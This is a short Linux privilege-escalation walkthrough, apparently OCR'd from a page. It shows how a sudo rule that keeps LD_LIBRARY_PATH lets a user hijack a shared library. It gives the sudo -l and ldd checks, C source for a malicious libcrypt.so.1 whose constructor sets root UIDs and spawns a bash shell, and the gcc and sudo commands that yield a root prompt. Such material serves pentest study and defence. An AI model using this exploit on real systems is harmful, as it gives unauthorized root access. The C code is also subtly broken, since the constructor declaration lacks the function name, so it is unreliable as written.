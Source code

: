 ### LD\_LIBRARY\_PATH

The LD\_LIBRARY\_PATH environment variable contains a set of directories where shared libraries are searched for first.

How to detect this:

```
sudo -l
env_keep+=LD_LIBRARY_PATH
```

The ldd command can be used to print the shared libraries used by a program:

```
ldd /usr/sbin/apache2
```

By creating a shared library with the same name as one used by a program, and setting LD\_LIBRARY\_PATH to its parent directory, the program will load our shared library instead.

Create a file with the name library\_path.c:

```
#include <stdio.h>
#include <stdlib.h>

static void () __attribute__((constructor));

void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

Select a binary that is detected with `sudo -l`

```
sudo -l

(sudo) NOPASSWD: /usr/sbin/apache2
```

Run the ldd command against the apache2 binary:

```
ldd /usr/sbin/apache2
libcrypt.so.1
```

Compile the shared object using the same name as another shared object found in ldd:

```
gcc -o libcrypt.so.1 -shared -fPIC library_path.c
```

Set the LD\_LIBRARY\_PATH variable to the current directory where we compiled the SO:

```
sudo LD_LIBRARY_PATH=. apache2
root#
```
